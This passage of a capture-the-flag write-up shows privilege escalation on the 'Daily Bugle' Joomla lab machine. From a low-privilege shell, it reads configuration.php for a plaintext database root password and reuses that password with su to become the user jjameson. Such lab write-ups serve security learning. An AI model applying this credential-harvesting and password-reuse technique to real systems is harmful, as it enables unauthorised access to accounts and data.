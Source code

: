 We are a low privileges user. Let's see if in the `/var/www/html` are any configuration files with plaintext credentials.

```
bash-4.2$ cd /var/www/html
bash-4.2$ ls
LICENSE.txt    cli		  includes   media	 tmp
README.txt     components	  index.php  modules	 web.config.txt
administrator  configuration.php  language   plugins
bin	       htaccess.txt	  layouts    robots.txt
cache	       images		  libraries  templates
```

`configuration.php` looks interesting. Let's see its content

```
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
	public $db = 'joomla';

[...snip...] 
```

With these credentials we can access `mysql` but there are no interesting information. We can see which other users are present inside this machine.

```
bash-4.2$ ls -l /home

jjameson
```

`jjameson` is a user. Let's see if the credentials we just found are reused for him

```
bash-4.2$ su jjameson
Password:
[jjameson@dailybugle html]$   
```

